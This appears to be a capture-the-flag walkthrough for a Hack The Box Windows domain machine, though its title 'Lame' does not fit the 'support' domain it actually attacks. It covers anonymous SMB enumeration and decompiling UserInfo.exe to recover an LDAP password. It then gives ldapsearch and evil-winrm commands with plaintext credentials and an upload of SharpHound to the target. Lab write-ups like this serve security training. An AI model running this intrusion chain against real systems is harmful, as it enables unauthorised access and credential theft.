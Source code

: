 **Lame** 
──(root㉿kali)-[/home/kali]
└─# smbclient -L 10.10.11.227 -N
do_connect: Connection to 10.10.11.227 failed (Error NT_STATUS_HOST_UNREACHABLE)
                                                                                                                                 
┌──(root㉿kali)-[/home/kali]
└─# smbclient -L 10.10.11.174 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.174 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

  
┌──(root㉿kali)-[/home/kali]
└─# smbclient //10.10.11.174/support-tools
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 13:01:06 2022
  ..                                  D        0  Sat May 28 07:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 07:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 07:19:55 2022
  putty.exe                           A  1273576  Sat May 28 07:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 07:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 13:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 07:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 07:19:43 2022

		4026367 blocks of size 4096. 967496 blocks available
                                                           
#download suspicios file   
smb: \> get UserInfo.exe.zip  

#create sperate folder for extaract
──(root㉿kali)-[/home/kali]
└─# unzip UserInfo.exe.zip 
Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config 

#move this UserInfo.exe to windows machine

#In windows machine

#download dnspy from >> https://github.com/dnSpy/dnSpy/releases
#open UserInfo.exe in dnspy
#anylze for any ldap passwords
#we got encryted password along with encryption techniq
#based on encryted techniq create script python script to decrypt password



┌──(blackdevil㉿kali)-[~/htb-writeups]
└─$ ldapsearch -x -H ldap://10.10.11.174 \
-D 'support\ldap' \
-w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
-b 'dc=support,dc=htb' \
"(cn=support)"

#port 5985 is open so we can possibly get intrective shell we will tool :evil-winrm
#Evil-WinRM is a post-exploitation tool used by attackers or penetration testers to get an interactive PowerShell shell on a remote Windows machine using WinRM (Windows Remote Management).
evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'


#Download Sharphound.exe and save it in attack machine home
#upload Sharphound on taget 
upload /home/kali/SharpHound.exe #run this on target machine shell 



